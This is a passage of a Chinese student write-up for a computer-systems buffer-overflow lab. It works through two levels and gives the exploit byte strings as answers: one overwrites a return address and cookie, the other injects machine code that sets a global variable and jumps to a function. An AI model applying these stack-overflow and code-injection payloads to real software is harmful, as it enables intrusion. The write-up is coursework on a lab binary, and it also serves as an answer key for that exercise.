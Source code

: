 ​	在IA-32中，参数通过栈传递，这里是0x8(%ebp)。我们只要修改它为cookie即可。先画出过程调用时的栈帧。

![图片5](C:\Users\86139\Desktop\jiji\lab3\图片5.jpg)

​	可以看出，只要level0中smoke的地址换为fizz的地址，并填充4字节后，填充cookie.

答案：

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00
ce 8b 04 08 00 00 00 00
da 0f ea 59
```

**level2**

​	level2更为复杂。这次的缓冲区溢出需要部署真实的机器指令，并返回到函数中。

​	毕竟内存哪知道自己存了什么东西，只知道往下执行。

​	调用函数bang，bang有一个没有用的参数。此外，有一个int型全局变量global_value。我们需要修改global_value，使其等于cookie。

​	为了完成上述的修改，我们需要找到global_value的位置。因为在bang中进行了比较，global_value一定在bang中出现。查看bang的反汇编。

![图片6](C:\Users\86139\Desktop\jiji\lab3\图片6.png)

​	显然0x804d140是global_value的地址。我们需要如下指令将该位置的值修改为cookie的值：

```
movl $0x59ea0fda, 0x804d140
jmp 0x8048c1f
```

​	可是，jmp使用相对寻址(call也是)，我们很难得到当前位置和bang函数之间的相对地址。因此，需要将一个地址推入栈中，然后调用ret指令：

```
movl $0x59ea0fda, 0x804d140
pushl $0x8048c1f
ret
```

​	除此之外，我们还需要知道应该把这些指令置于何处（绝对地址）。根据图片1的栈帧，和getbuf的反汇编指令，可以得到所求的绝对地址应该是%ebp-50，即0x5568361d。

![图片7](C:\Users\86139\Desktop\jiji\lab3\图片7.png)

​	然后，将上述指令转换成机器语言。转换方法是将指令放在文件mi.s中，使用gcc -m32 -c将其转换成mi.o，然后使用objdump -d查看机器指令。

![图片8](C:\Users\86139\Desktop\jiji\lab3\图片8.png)

​	以上就是level2的exploit code编写思路，下为答案。

答案：

```
//0x5568361d
c7 05 40 d1 04 08 da 0f ea 59 // movl $0x59ea0fda, 0x804d140
68 1f 8c 04 08 // pushl $0x8048c1f
c3 // ret
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
1d 36 68 55
```
